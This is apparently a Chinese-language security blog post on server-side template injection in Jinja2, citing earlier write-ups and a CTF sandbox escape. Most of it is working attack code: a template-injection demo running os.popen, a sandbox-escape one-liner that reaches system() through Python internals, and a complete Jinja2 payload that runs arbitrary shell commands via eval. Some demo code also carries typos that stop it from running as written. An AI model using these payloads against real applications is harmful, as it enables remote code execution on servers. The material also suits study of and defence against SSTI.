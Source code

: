 ```yaml
---
title: "SSTI Jinja2"
date: 2016-03-01 10:44
---
```


# python 模板引擎 Jinja2存在服务端模板注入(SSTI)

[@nvisium][1] 在其博客发表文章 [《Inject Flask》][2]，控制Jinja模板内容时利用环境变量中已注册的用户自定义函数进行恶意调用或利用渲染进行XSS等

乌云文章[ 利用 Python 特性在 Jinja2 模板中执行任意代码 ][3]提到Jinja2模板可以访问一些python内置变量，如 [], {} 等，并且能够使用python变量类型中的一些函数。

访问的具有特殊意义的字符串：

```python
from Jinja2 import Template

def inject(cmd):
    return Template("input:{{ %s }}" % cmd).render()

for f in __builtins__.__dict__.keys():
    msg = inject(f+".__class__")
    if 'Undefined' not in msg:
        print("{f}: {msg}".format(f=f, msg=msg))
    
>>>
dict: input:<type 'function'>
False: input:<type 'bool'>
True: input:<type 'bool'>
None: input:<type 'NoneType'>
range: input:<type 'type'>
```

Jinja模板执行python代码，官方说明是需要在模板环境中注册函数才能在模板中调用。

```python
# file: demo1.py

import os
import sys
form jinja2 import Template

template = Template("input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
tempalte.global['os'] = os
print tempalte.render()


>>>python demo1.py "{{ os.popen("echo hello").read() }}"
input: hello
```

## 利用python特性直接执行任意代码

python沙盒逃逸, 参考: [CSAW-CTF Python sandbox write-up][4]

```python
# file: sandbox.py

from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()
targets.remove('raw_input')
targets.remove('print')

for x in targets:
    del __builtins__.__dict__[x]

while 1:
    print(">>>", end=' ')
    data = raw_input()
    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else:
        exec data
```

```
python sandbox.py

Welcome to my Python sandbox! Enter commands below!
>>> [c for c in [].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('echo hello sandbox')
hello sandbox
```

## 结合沙盒逃逸Jiaja2模板任意代码执行

Jinja2 模板payload

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.func_globals.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

[1]: https://twitter.com/nvisium
[2]: https://nvisium.com/blog/2015/12/07/injecting-flask/
[3]: http://drops.wooyun.org/web/13057
[4]: https://hexplo.it/escaping-the-csawctf-python-sandbox/